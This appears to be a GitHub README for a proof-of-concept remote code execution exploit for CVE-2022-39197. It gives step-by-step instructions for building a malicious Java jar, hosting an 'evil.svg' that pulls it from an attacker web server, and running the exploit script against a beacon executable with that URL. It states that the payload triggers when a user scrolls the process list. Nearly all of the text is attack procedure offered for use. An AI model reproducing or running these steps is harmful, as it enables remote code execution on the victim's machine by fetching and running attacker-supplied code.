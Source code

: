 # **CVE-2022-39197 RCE POC**

### Usage

- **Prepare Payload**
1. Edit `Line 19` with your payload in `EvilJar/src/main/java/Exploit.java`
2. Build using jar `mvn clean compile assembly:single`
3. Move `EvilJar-1.0-jar-with-dependencies.jar` from `EvilJar/target/` to `serve/` folder
4. Edit `serve\evil.svg` replace `[attacker]` 
5. Serve using `python3 -m http.server 8080`

- **Execute Exploit**

```
python3 cve-2022-39197.py beacon.exe http://10.10.10.2:8080/evil.svg
```

Payload will be triggered as soon as the user scrolls through Process List

### POC.JPG?
![1.jpg](./images/1.jpg)


### Reference Links

[https://mp.weixin.qq.com/s/Eb0pQ-1ebLSKPUFC7zS6dg](https://mp.weixin.qq.com/s/Eb0pQ-1ebLSKPUFC7zS6dg) — There’s a great in depth analysis of this vulnerability
[https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html](https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html)